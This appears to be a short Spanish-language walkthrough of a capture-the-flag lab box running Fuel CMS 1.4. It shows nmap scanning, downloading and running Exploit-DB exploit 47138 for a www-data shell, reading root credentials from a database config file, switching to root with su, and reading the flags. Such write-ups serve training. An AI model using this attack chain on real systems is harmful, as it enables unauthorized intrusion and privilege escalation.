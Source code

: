 ### **1. Escaneo inicial**

- Se ejecuta nmap -sV 10.10.200.75
    
- **Puerto 80 (HTTP)**: Servicio Apache con **Fuel CMS 1.4**
    

---

### **2. Reconocimiento web**

- Se visita http://10.10.200.75 en el navegador.
    
- En el código fuente se confirma **Fuel CMS 1.4**.
    
- Se busca en Google: _"Fuel CMS 1.4 exploit"_ → Encuentra **RCE (Ejecución Remota de Código)**.
    

---

### **3. Explotación**

- Se descarga el exploit de Exploit-DB:
    
    bash
    
    Copy
    
    searchsploit -m 47138 && mv 47138.py fuel_rce.py
    
- Se ejecuta:
    
    bash
    
    Copy
    
    python3 fuel_rce.py http://10.10.200.75
    
- **Resultado**: Obtiene shell como **www-data**.
    

---

### **4. Escalada de privilegios**

- Se buscan credenciales en archivos de configuración:
    
    bash
    
    Copy
    
    cat /var/www/html/fuel/application/config/database.php
    
- **Credenciales encontradas**:
    
    php
    
    Copy
    
    'username' => 'root',
    'password' => 'mememe',
    
- Se prueba en el sistema:
    
    bash
    
    Copy
    
    su root  
    Password: mememe 
    

---

### **5. Flags capturadas**

- **User flag**:
    
    bash
    
    Copy
    
    cat /home/www-data/user.txt
    
   
    
- **Root flag**:
    
    bash
    
    Copy
    
    cat /root/root.txt
    
